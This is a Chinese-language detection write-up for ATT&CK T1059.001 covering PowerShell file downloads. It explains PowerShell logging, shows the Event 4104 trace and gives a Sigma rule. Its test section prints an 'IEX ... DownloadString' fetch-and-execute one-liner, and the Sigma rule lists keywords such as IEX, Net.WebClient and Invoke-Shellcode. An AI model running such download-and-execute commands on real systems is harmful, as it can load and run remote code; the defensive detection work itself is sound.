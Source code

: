 # T1059-001-Win-检测Powershell下载文件

## 来自ATT&CK的描述

攻击者可能滥用PowerShell来执行命令和脚本。PowerShell是Windows操作系统中包含的功能强大的交互式命令行界面和脚本环境。攻击者可以使用PowerShell执行许多操作，包括发现信息和执行恶意代码。示例包括Start-Process可用于运行可执行文件的Invoke-Commandcmdlet和可在本地或远程计算机上运行命令的cmdlet（尽管使用PowerShell连接到远程系统需要管理员权限）。

PowerShell也可以用于从Internet下载并运行可执行文件，这些可执行文件可以从磁盘或内存中执行而无需接触磁盘。

许多基于PowerShell的攻击性测试工具，包括Empire，PowerSploit，PoshC2和PSAttack。

还可以执行PowerShell命令脚本，而无需通过.NET框架和Windows公共语言接口（CLI）公开的powershell.exePowerShell底层System.Management.Automation程序集DLL的接口直接调用二进制文件。

## 检测日志

Windows powershell日志审核策略

- 按Win+R打开Windows运行窗口,在输入框里输入gepdit.msc,打开Windows本地组策略编辑器;
- 找到计算机配置/管理模板/Windows组件/Windows Powershell，根据需求打开右侧所需要的日志功能；

## 测试复现

```yml
PS C:\Users\12306br0> IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/de
tails/89361287')
```

## 测试留痕

```yml
Powershell事件ID：4104
正在创建 Scriptblock 文本(已完成 1，共 1):
IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')

ScriptBlock ID: e9f29288-34e7-497f-8fff-9a6cf6c355da
```

## 检测规则/思路

### sigma规则

```yml
title: 检测PowerShell下载文件行为
status: experimental
description: 检测在powershell下载文件行为，windows server 2016测试
tags:
    - attack.t1059-001
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: 
            - '*\powershell.exe'
            - '*\powershell_ise.exe'
        CommandLine:
            - '*Net.WebClient*'
            - '*DownloadFile*'
            - '*Invoke-WebRequest*'
            - '*Invoke-Shellcode*'
            - '*http*'
            - '*Start-BitsTransfer*'
            - '*IEX*'
            - '*mpcmdrun.exe*'
    condition: selection
level: medium
```

### 建议

在使用Powershell日志进行检测时，我们不建议使用进程名称加命令行关键词匹配的方式进行检测。因为Powershell事件ID：4104中并不包含进程信息。

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>

PowerShell 下载文件

<https://www.pstips.net/powershell-download-files.html>

检测Powershell下载文件行为

<https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/PowerShell%20downloads.txt>

Powershell与威胁狩猎

<https://www.freebuf.com/articles/terminal/267080.html>
